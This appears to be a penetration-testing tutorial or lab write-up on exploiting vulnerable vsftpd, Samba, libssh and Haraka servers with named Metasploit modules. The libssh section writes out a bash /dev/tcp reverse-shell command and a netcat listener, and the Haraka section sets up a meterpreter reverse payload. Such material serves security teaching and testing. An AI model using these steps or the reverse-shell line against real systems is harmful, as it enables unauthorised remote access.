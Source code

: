 
---

## Exploiting A Vulnerable FTP Server

vsftpd is an FTP server for Unix-like systems including Linux systems and is the default FTP server for Ubuntu, CentOS and Fedora.

vsftpd V2.3.4 is vulnerable to a command execution vulnerability that is facilitated by a malicious backdoor that was added to the vsftpd download archive through a supply chain attack.

We can use this MSF module to exploit this vulnerability: "unix/ftp/vsftpd_234_backdoor"

---

## Exploiting Samba

Samba V3.5.0 is vulnerable to remote code execution vulnerability, allowing a malicious client to upload a shared library to a writable share, and then cause the server to load and execute it.

We can use this MSF module to exploit this vulnerability: "linux/samba/is_known_pipename"

---

## Exploiting A Vulnerable SSH Server

libssh is a multi-platform C library implementing the SSHv2 protocol on client and server side.

libssh V0.6.0-0.8.0 is vulnerable to and authentication bypass vulnerability in the libssh server code that can be exploited to execute commands on the target server.

We can use this MSF module to exploit this vulnerability: "scanner/ssh/libssh_auth_bypass"

Even though, this is an auxiliary module, we can use it to have a reverse shell session on the target machine. If the Shell action didn't work, we can use the Execute action to execute a shell command that would grant us a reverse shell. We will set the CMD option to:' bash -i >&/dev/tcp/(our IP address)/(port number) 0>&1'

Then, before we run the module, we will set a Netcat listener to listen on the port number we specified:`nc -nvlp (port number)`

When we  run the module and we returned back to Netcat, we will find a reverse shell session.

**For this module to work, we need to set the option: "SPAWN_PTY" to true for the Shell action to work.**

---

## Exploiting A Vulnerable SMTP Server


Haraka is an open source high performance SMTP server developed in Node.js

The Haraka SMTP server comes with a plugin for processing attachments. Haraka versions prior to V2.8.9 are vulnerable to command injection.

We can use this MSF module to exploit this vulnerability: "linux/smtp/haraka"

We will set the following options: 
1. SRVPORT 9898
2. email_to (an email that the server will accept)
3. payload linux/x64/meterpreter_reverse_http
4. rhost (target IP)
5. Lhost (our IP)

After we run the module, we will get an error saying that the session was closed. However, we will ignore this error and check if there are any sessions are open: `sessions`

We should have a meterpreter session open.
